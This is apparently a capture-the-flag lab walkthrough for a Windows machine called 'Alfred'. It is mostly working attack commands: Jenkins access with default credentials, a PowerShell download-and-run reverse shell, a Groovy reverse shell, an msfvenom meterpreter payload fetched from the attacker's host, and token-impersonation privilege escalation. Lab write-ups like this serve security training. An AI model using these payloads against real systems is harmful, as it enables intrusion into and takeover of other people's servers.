

alfred
Alfred
nmap -Pn -sV -sC -O -vv 10.10.3.206
Scanning 10.10.3.206 [1000 ports]
Discovered open port 8080/tcp on 10.10.3.206
Discovered open port 80/tcp on 10.10.3.206
Discovered open port 3389/tcp on 10.10.3.206
we browse to http://10.10.3.206:8080
Login using default credentials for jenkins ---- admin:admin
Foothold
Way-1
THM Reference
Go to Build History.
http://10.10.3.206:8080/view/all/builds
Click on Project 1
http://10.10.3.206:8080/job/project/
On the left click on configure
http://10.10.3.206:8080/job/project/configure

Powershell Payload for reverse shell using Nishang.
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
cd /opt
git clone https://github.com/samratashok/nishang.git
cd /opt/nishang/Shells
Note: We have to host the Invoke-PowerShellTcp.ps1 file with python2 -m SimpleHTTPServer 80
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.72.31:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.72.31 -Port 7777
Run listener in our attack system. rlwrap nc -lvnp 7777
Note: As we have command execution we can use any reeverse shell. eg upload nc.exe and get netcat reverse shell etc.
Enter our powershell payload in command and APPLY then SAVE.
Then on the left click on “Build Now"
We will have the reverse shell in our netcat listener.
Or
Foothold
Way-2
Go to Jenkins -→ Manage jenkins -→ Script Consoie
http://10.10.65.127:8080/script
It allows for any groovy language script
We will use the following groovy reverse shell and listen with netcat in kali.
String host="10.11.72.31";int port=6666;String cmd="cmd.exe";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
and
lwrap nc -lvnp 6666
Once we hit run. We will get a reverse shell
Get the user flag at C:\Users\Bruce\Desktop\user.txt
Shell Switch
Now, we switch to meterpreter shell for easier prevelege escalation.
we make a meterpreter payload using msfvenom.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.72.31 LPORT=8888 -a x86 --encoder x86/shikata_ga_nai -f exe -o jenkins_revshell.exe
We host this using python webserver.
Download using the last Powershell technique or any other.
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.72.31:8000/jenkins_revshell.exe','jenkins_revshell.exe')"
Start Listner in msfconsole:
use multi/handler
SET PAYLOAD windows/meterpreter/reverse_tcp
SET LHOST 10.11.72.31
SET LPORT 8888
To Run the Rev Shell Executible:
Start-Process "jenkins_revshell.exe"
OR
powershell -c "Start-Process 'jenkins_revshell.exe'" from cmd.exe
We should get a session on meterpreter after this.
Prevelege Escalation Using Token Impersonation:
Check privileges with “whoami /priv”
SeDebugPrivilege, SeImpersonatePrivilege are the ones that help to escalate the privelege. Both are enabled here.
In the meterpreter:
load incognito : Loads the Incognito extention of meterpreter used for token impersonation
list_tokens -g : It will list all available tokens
impersonate_token BUILTIN\Administrators : This will impersonate the Administrator token
Verify with getuid
We are now NT AUTHORITY\SYSTEM as token but we still need a high privelege process.
ideally migrate to a high privelege process. eg.lsass.exe or services.exe
use ps command to show all process.
getpid to show our current process ID.
migrate PID to go to a high privelege process
Now we have successfully elevated the priveleges.
The root flag is at C:\Windows\System32\config\root.txt
Thanks!!